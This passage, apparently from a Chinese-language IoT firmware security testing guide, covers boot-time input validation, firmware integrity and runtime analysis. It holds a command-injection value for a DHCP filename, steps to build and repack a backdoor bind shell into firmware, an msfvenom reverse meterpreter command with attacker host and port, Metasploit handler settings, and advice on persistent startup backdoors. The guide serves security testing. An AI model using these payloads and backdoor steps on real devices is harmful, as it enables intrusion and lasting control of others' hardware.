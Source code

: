 **·** 使用Metasploit（MSF）DHCP辅助服务器，并使用命令注入命令修改FILENAME``‘a";/bin/sh;#’参数，例如测试设备启动过程的输入验证。

**固件完整性测试**

尝试上传自定义固件和编译的文件，以检查完整性或签名验证漏洞。例如，使用以下步骤编译在启动时启动的后门绑定shell。

\1. 使用固件修改包（FMK）提取固件；

\2. 确定目标固件架构和字节序；

\3. 使用BuildrootBuild交叉编译器或使用适合环境的其他方法；

\4. 使用交叉编译器Build后门；

\5. 将后门复制到解压缩的固件/ usr / bin中；

\6. 将适当的QEMU文件复制到提取的固件rootfs；

\7. 使用chroot和QEMU模拟后门；

\8. 通过netcat连接到后门；

\9. 从提取的固件rootfs中删除QEMU文件；

\10. 用FMK重新包装修改后的固件；

\11. 通过使用固件分析工具包（FAT）进行仿真并使用netcat连接到目标后门IP和端口来测试后门固件。

如果已经通过动态分析，引导加载程序操纵或硬件安全测试手段获得了root shell，尝试执行预编译的恶意文件，例如植入程序或反向shell。使用用于命令和控制（C＆C）框架的自动化有效载荷/植入工具。例如，可以使用以下步骤来利用Metasploit框架和msfvenom。

\1. 确定目标固件架构和字节序

\2. 使用指定适当的目标负载（-p），攻击者主机IP（LHOST =），侦听端口号（LPORT =）文件类型（-f），编译（--arch），平台（--platform Linux或Windows）和输出文件（-o）。例如，msfvenom``msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux

\3. 将有效负载传到受感染的设备（例如，运行本地Web服务器，并将有效负载wget / curl到文件系统），并确保有效负载具有执行权限

\4. 准备Metasploit以处理传入的请求。例如，使用msfconsole启动Metasploit，然后根据上述有效负载使用以下设置：use exploit / multi / handler，

**·** set payload linux/armle/meterpreter_reverse_tcp

**·** set LHOST 192.168.1.245 #attacker host IP

**·** set LPORT 445 #can be any unused port

**·** set ExitOnSession false

**·** exploit -j -z

**·** 在受感染的设备上执行meterpreter反向shell

**·** 查看 meterpreter sessions

**·** 后渗透攻击

最后，尽可能的在启动脚本中设置对设备持久访问的后门，保证重新启动后也有设备的访问控制权

**0x08 运行时分析**

运行时分析涉及在设备在其正常或仿真环境中运行时附加到正在运行的进程或文件。下面提供了基本的运行时分析步骤：

1. \1. sudo chroot . ./qemu-arch -L。
